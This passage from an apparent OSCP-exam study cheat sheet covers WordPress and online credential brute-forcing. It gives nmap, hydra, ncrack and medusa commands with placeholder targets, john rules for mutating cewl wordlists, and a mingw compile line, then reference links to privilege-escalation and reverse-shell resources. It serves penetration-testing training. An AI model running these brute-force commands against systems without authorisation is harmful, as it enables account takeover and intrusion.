     nmap -sV --script=http-wordpress-brute --script-args 'userdb=/root/Downloads/user.txt,passdb=/usr/share/wordlists/rockyou-10k.txt,http-wordpress-brute.threads=3,brute.firstonly=true' $rhost
    ```
    * Dashboard to RCE Shell: [Pentaroot](https://pentaroot.com/exploit-wordpress-backdoor-theme-pages/)

---

## Brute Forcing Online
1. `#!bash cewl $url -m 6 -w $url.txt`
1. Edit /etc/john/john.conf and add the lines below to the end
    ```
    20$[0-2]$[0-9]
    19$[5-9]$[0-9]
    $[0-9]$[0-9]
    $[0-9]$[0-9]$[0-9]
    ```
1. `#!bash john --wordlist=cewl-$url.txt --rules --stdout  cewl-johnMutated-wordlist-$url.txt`

* SSH/FTP/MSSQL:
    ```bash
    hydra -t 4 -l $username -P $wordlist $rhost $protocol(ssh/ftp/mssql)[common usernames: mssql=sa,ssh=root,ftp=anonymous/root,]
    ```
* RDP:
    ```bash
    ncrack -u $username -P $wordlist $rhost:$rport
    ```
* WEB:
    ```bash
    medusa -h $url -u admin -P cewl-johnMutated-wordlist-$url.txt -M http -m DIR:/(where the login is) -T 10
    ```
    * BurpSuite
* HTTP-BasicAuth: 
    ```bash
    hydra -t 4 -L $username-wordlist -P cewl-johnMutated-wordlist-$url.txt $rhost -s $rport http-get /$rpath
    ```
* SMB:
    ```bash
    hydra -l $username -P $wordlist.txt $rhost smb -V
    ```

---

## Exploitation
* exploit-db.com
* Security Focus
* CVE details
* Github
* Google
* Compilation: i686-w64-mingw32-gcc -lws2_32 $filename.c -o $filename.exe

---

[^1]: [sleventyeleven](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
[^2]: [highon.coffee](https://highon.coffee/downloads/linux-local-enum.sh)
[^3]: [rebootuser](https://github.com/rebootuser/LinEnum)
[^4]: [g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^8]: [Memmodipper](https://www.exploit-db.com/exploits/18411)
[^9]: [chkrootkit](https://www.exploit-db.com/exploits/33899)
[^10]:  [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
[^11]: [Amplia Security](https://www.ampliasecurity.com/research.html)
[^12]: [Foofus](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
[^13]: [neomh](https://github.com/neomh/cheat-sheets/blob/master/Commands)
[^14]: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[^15]: [Vulnerabilityassessment.co](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
[^16]: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)
[^17]: [Escape from shellcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
[^18]: [ianthomasfry](https://ianthomasfry.blogspot.com/2017/05/oscp-exam-study-guide-i-first-steps.html)
[^19]: [Sec Juice](https://www.secjuice.com/oscp-prep-guidance/)
[^20]: [scund00r](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
[^21]: [backdoorshell](https://backdoorshell.gitbooks.io/oscp-useful-links/content/fuzzing.html)
[^22]: [0xc0ffee](http://0xc0ffee.io/blog/OSCP-Goldmine)
[^23]: [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/)
[^24]: [ihack4falafel](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Bookmark%20List.pdf)
[^25]: [kevsec](http://kevsec.fr/resources/)
[^26]: [futureoscp](http://futureoscp.blogspot.com/2017/10/usefull-oscp-material.html)
[^5]: [WindowsPrivCheck](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Upgrading%20half%20shells%20to%20fully%20interactive%20TTYs.pdf)
[^6]: [Accesschk](https://download.sysinternals.com/files/AccessChk.zip)
[^7]: [JAWS](https://github.com/411Hall/JAWS.git)
[^31]: [Exploit-db-130179](https://www.exploit-db.com/papers/13017)
[^32]: [hackingarticles](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/)
[^33]: [Graceful security](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
[^34]: [3mrgnc3](https://github.com/3mrgnc3/LFIter2/blob/master/win-fpaths.txt)
[^35]: [Ethical Hackers Club](https://www.youtube.com/watch?v=1fkgo4hsyp8)
[^36]: [HackMag](https://hackmag.com/security/hacking-mysql-databases-methods-and-tools/)